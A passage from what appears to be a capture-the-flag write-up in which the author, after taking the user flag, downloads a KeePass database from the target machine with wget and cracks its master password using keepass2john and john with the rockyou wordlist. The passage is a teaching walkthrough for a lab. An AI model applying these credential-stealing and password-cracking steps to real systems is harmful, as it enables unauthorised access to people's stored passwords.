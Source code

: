 Amazing we got the user flag 🥳

Now let’s transfer the password.kdbx to our machine

```bash
wget http://10.10.255.102:8080/passwords.kdbx
```

![image.png](../images/hybrid%2024.png)

now let’s try to open the pasowrds file

![image.png](../images/hybrid%2025.png)

we need a password so let’s go and crack it 

```bash
keepass2john passwords.kdbx > crackme.txt
```

![image.png](../images/hybrid%2026.png)

Now using john to crack the hash

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
